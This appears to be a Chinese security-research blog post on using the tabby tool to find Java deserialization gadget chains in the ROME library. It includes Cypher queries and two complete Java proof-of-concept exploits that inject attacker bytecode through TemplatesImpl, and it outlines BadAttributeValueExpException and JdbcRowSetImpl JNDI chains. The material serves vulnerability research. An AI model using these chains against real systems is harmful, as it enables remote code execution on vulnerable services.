







# 使用tabby分析rome反序列化链-先知社区

> **来源**: https://xz.aliyun.com/news/17330  
> **文章ID**: 17330

---

分析环境为rome1.7、jdk8、tabby2.0  
rome反序列化链有若干其他情况，现一一进行分析查询  
**ToStringBean**  
这条调用链如下

```
 * TemplatesImpl.getOutputProperties()
 * NativeMethodAccessorImpl.invoke0(Method, Object, Object[])
 * NativeMethodAccessorImpl.invoke(Object, Object[])
 * DelegatingMethodAccessorImpl.invoke(Object, Object[])
 * Method.invoke(Object, Object...)
 * ToStringBean.toString(String)
 * ToStringBean.toString()
 * ObjectBean.toString()
 * EqualsBean.beanHashCode()
 * ObjectBean.hashCode()
 * HashMap<K,V>.hash(Object)
 * HashMap<K,V>.readObject(ObjectInputStream)
```

这里可将sink定义为toString函数，source从HashMap的readObject出发，结合语义写查询如下：

```
match (source:Method {NAME:"readObject",CLASSNAME:"java.util.HashMap"}) // 限定source

match (sink:Method { NAME:"toString"}) // 限定sink

CALL tabby.algo.findPath(source,">",sink,5,false) yield path

return path limit 1
```

  
并没有查询到，  
这里发现从java.lang.Object#hashCode关联到了com.sun.corba.se.spi.orb.OperationFactory$OperationBase#hashCode，并不是我们要的EqualsBean，考虑到java.lang.Object#hashCode会关联若干个类的hashCode，这里在链中显式明确EqualsBean

```
match (source:Method {NAME:"readObject",CLASSNAME:"java.util.HashMap"}) // 限定source

match (sink:Method { NAME:"toString"}) // 限定sink

match path=(source)-[:CALL*..2]->(m3:Method {NAME:"hashCode"})-[:ALIAS*1]->(m4:Method{NAME0:"com.rometools.rome.feed.impl.EqualsBean#hashCode"})-[:CALL*]->(sink)

return path limit 10
```

  
这里看到已经调用到了com.rometools.rome.feed.impl.EqualsBean#hashCode，并且下面调用com.rometools.rome.feed.impl.EqualsBean#beanHashCode，但是没能找到ToStringBean，看下调用链发现，实际上还是刚才那个问题java.lang.Object#toString到com.rometools.rome.feed.impl.ToStringBean#toString，在路径中增加一层alias关系  
  
成功找到了调用链  
poc如下：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class Rome {

    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {

        byte[] payloads = Files.readAllBytes(Paths.get("D:\Calc.class"));

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][] {payloads});
        setFieldValue(templates, "_name", "zjacky");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        ObjectBean delegate = new ObjectBean(Templates.class, templates);

        ObjectBean root = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "a"));

        HashMap map = new HashMap&lt;&gt;();
        map.put(root, "zjacky");
        map.put("1", "1");

        Field field = ObjectBean.class.getDeclaredField("_equalsBean");
        field.setAccessible(true);
        field.set(root, new EqualsBean(ObjectBean.class, delegate));

//        serialize(map);
        unserialize("ser.bin");
    }

}
```

**EqualsBean**  
poc如下：

```

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class ROME_ObjectBean_hashCode {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templatesimpl = new TemplatesImpl();

        byte[] payloads = Files.readAllBytes(Paths.get("D:\Calc.class"));

        setValue(templatesimpl,"_name","aaa");
        setValue(templatesimpl,"_bytecodes",new byte[][] {payloads});
        setValue(templatesimpl, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesimpl);

        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);

        HashMap hashMap = new HashMap&lt;&gt;();
        hashMap.put(objectBean, "123");

//        serialize(hashMap);
        unserialize("ser.bin");
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

com.rometools.rome.feed.impl.EqualsBean#beanEquals相当于是另外一个sink点了，  
source点定义为HashSet.readObject方法

```
match (source:Method {NAME:"readObject",CLASSNAME:"java.util.HashSet"}) // 限定source

match (sink:Method { NAME:"beanEquals"}) // 限定sink

CALL tabby.algo.findPath(source,">",sink,6,false) yield path

return path limit 1
```

  
**BadAttributeValueExpException**

```
BadAttributeValueExpException#readObject() -> ToStringBean.toString(String) ->TemplatesImpl.getOutputProperties()
```

source点变了，sink没有变  
这就更没什么好说的了，需要注意的还是从Object.toString到ObjectBean.toString的关联，为了避免展示太多情况，这里直接限定死了  
  
后面就不放poc了  
**JdbcRowSetImpl**

```
Hessian#readObject() -> HashMap#put()-> ObjectBean#hashCode() ->ToStringBean#toString(String) -> JdbcRowSetImpl#getDatabaseMetaData()
```

之前的调用链是利用TemplatesImpl中的getter方法，这里则是利用了JdbcRowSetImpl中的getter，具体调用关系为com.sun.rowset.JdbcRowSetImpl#getDatabaseMetaData->com.sun.rowset.JdbcRowSetImpl#connect->javax.naming.InitialContext#lookup(java.lang.String)  
结合语义分析，可以写出如下查询：  
  
发现好像com.sun.rowset.JdbcRowSetImpl#getParameterMetaData也可以调用到lookup，也算是中间新的链路了吧  

